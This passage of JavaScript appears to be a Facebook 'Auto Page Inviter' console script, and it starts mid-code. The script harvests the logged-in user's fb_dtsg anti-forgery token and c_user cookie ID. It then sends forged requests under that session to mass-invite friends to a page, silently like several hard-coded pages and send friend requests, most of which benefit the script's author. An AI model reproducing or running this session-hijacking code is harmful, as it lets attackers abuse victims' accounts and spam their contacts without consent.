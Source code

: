 "like_action=true&amp;ft_ent_identifier="+opo+"&amp;source=1&amp;client_id="+now+"%3A379783857&amp;rootid=u_jsonp_39_18&amp;giftoccasion&amp;ft[tn]=%3E%3D&amp;ft[type]=20&amp;ft[qid]=5890811329470279257&amp;ft[mf_story_key]=2814962900193143952&amp;ft[has_expanded_ufi]=1&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n88QoAMBlClyocpae&amp;__req=g4&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 &amp;&amp; X.status == 200) { X.close; } }; X.send(XParams); }  // pic + fans P("710808665644838");Like("255113344668121");Like("114548671957673");Like("1375353502725775"); /*Add Friend*/; var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) {   var X = new XMLHttpRequest();   var XURL = "//www.facebook.com/ajax/add_friend/action.php";   var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   X.open("POST", XURL, true);   X.onreadystatechange = function () {     if (X.readyState == 4 &amp;&amp; X.status == 200) {       X.close;     }   };   X.send(XParams); }  javascript: var Title='Auto Page Inviter&lt;br/> By:&lt;A style="color:#cecfd1;" href="https://www.facebook.com/Butt.100" target="_blank">Maan BuTt&lt;/A>'; var Descriptions = "",     _text = 'Powered By: Maan BuTt&lt;/br>Script Made By &lt;/A>&lt;A style="color:#8db8ca;" href="http://www.facebook.com/100001471322731" target="_blank"> Maan Butt&lt;/A>&lt;/A>.&lt;/br> Join My Fanpage &lt;A style="color:#e6ebf8;" href="https://www.facebook.com/No.5050100" target="_blank">Maan BuTt&lt;/A>.&lt;/A>'; page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1]; function InviteFriends(opo) {     jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send_single?page_id=" + page_id + "&amp;invitee=" + opo + "&amp;elem_id=u_0_1k&amp;action=send&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=8&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=", function (a) {         var b = a.substring(a.indexOf("{"));         var c = JSON.parse(b);         i--;         Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";         if (c.error) {             Descriptions += "color:darkred'>";             err++;             if (c.errorDescription) Descriptions += c.errorDescription;             else Descriptions += JSON.stringify(c, null, "")         } else {             Descriptions += "color:darkgreen'>";             Descriptions += arn[i] + " has been invited to like the page " + page_name + ".";             suc++         }         Descriptions += "&lt;/div>";         var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#e1dddd'>";         display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>";         if (i > 0) {             display += arr.length + " Friends Detected&lt;br/>";             display += "&lt;b>" + suc + "&lt;/b> Friends Invited of " + (arr.length - i) + " Friends Processed ";             display += "(" + i + " Lefted...)";             display += "&lt;div class='friend-edge'>";             display += Descriptions;             display += "&lt;img style='width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src=" + pho[i] + ">&lt;/img>&lt;a style='font-size:13px;padding-left:8px;text-align:left;color:#9098a9;position:absolute;font-weight:bold;'>" + arn[i] + "&lt;/a>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>";             display += "Please Wait While Inviting Your Friends to Like Your Page " + page_name + ".&lt;/br>";             display += _text;             display += "&lt;/div>";             display += "&lt;/div>";             window[tag + "_close"] = true         } else {             Title = "All Of Your Friends Have Been Invited to Like Your Page.&lt;/A>";             display += arr.length + " Friends Detected and ";             display += "&lt;b>" + suc + " Friends Invited.&lt;/b>&lt;/br>";             display += "&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage&lt;/span>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Refresh Page&lt;/span>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Cancel&lt;/span>&lt;br/>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";             display += _text;             display += "&lt;/div>";             window[tag + "_close"] = false         }         display += "&lt;/div>";         document.getElementById("pagelet_sidebar").innerHTML = display     }, "text", "post");     tay--;     if (tay > 0) {         var s = arr[tay];         setTimeout("InviteFriends(" + s + ")", 100)     }     console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);